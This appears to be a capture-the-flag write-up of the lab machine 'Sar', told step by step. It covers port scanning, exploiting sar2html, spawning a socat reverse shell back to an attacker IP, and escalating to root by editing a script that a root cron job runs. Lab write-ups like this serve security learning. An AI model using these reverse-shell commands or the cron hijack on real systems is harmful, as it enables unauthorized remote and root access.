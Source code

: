 # PG Play - Sar
## Author: Love Sharma
## Released on: Jul 20, 2020
### Difficulty: Easy
### Community Difficulty: Easy
### Description: This is not a conventional foothold-privesc type of machine. Only proof.txt is a valid flag.
| Step: | Notes: |
| --- | --- |
| 1. | I ran a all ports nmap scan without a T4 switch to get started and ran another in parallel for speed with a T4 switch and of only common ports. |
| 2. | My fast NMAP scan found port 80 opened out of habit I manually checked for common files in the web directory, and found sar2html in robots.txt. |
| 3. | I found an exploit for sar2html which I figured I'd test out real quick. https://github.com/AssassinUKG/sar2HTML&ved=2ahUKEwi64tH145iFAxWepVYBHRJtC3gQFnoECAsQAQ&usg=AOvVaw09b6JcvNV9blzX1NKL5321 |
| 4. | This gave me a foothold with a dumb shell as the www user, I now needed to spawn a tty shell. |
| 5. | I tested a few different types of tty shell spawns, php, python, nc (no -e because of version issue but the nc tty without a -e didn't work either) the one that worked was a socat used below commands |
| 5.1 | On my attack box ```socat file:`tty`,raw,echo=0 tcp-listen:4444``` |
| 5.2 | On the target ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444``` | 
| 6. | I'd transferred linpeas over earlier with the dumb shell but made it a priority to get a tty first. I found that I had access to the /var/spool/cron/crontabs folder which included cron jobs for the root user. I discovered that a script called finally.sh ran on every 5th minute as a cron job this file was only executable and readable by me. |
| 6.1 | I found another nice command that could of found this cron job quicker: ```cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"``` |
| 7. | I navigated to the finally.sh file at ```/var/www/html/finally.sh``` |
| 8. | When I read the finally.sh I found the scripts only purpose is to run another script called write.sh every 5th minute, I had read, write and execute permissions of the write.sh file. All the write.sh file did was create a empty file in the tmp directory called gateway. |
| 9. | I modified write.sh to include the socat reverse shell, since the cronjob for finally.sh ran every 5 minutes it would provide me, in theory which a reverse shell as root. |
| 10. | This worked and I was able to obtain the proof.txt for this machine |

## Lessons Learnt:
| 1. | This machine reminded me of a couple of things I learnt from the TCM Academy course on Ethical hacking, which was taking advantage of files that were either directly ran as root and I was capable of modifying. |
| 2. | The value of a tty shell |
| --- | --- |
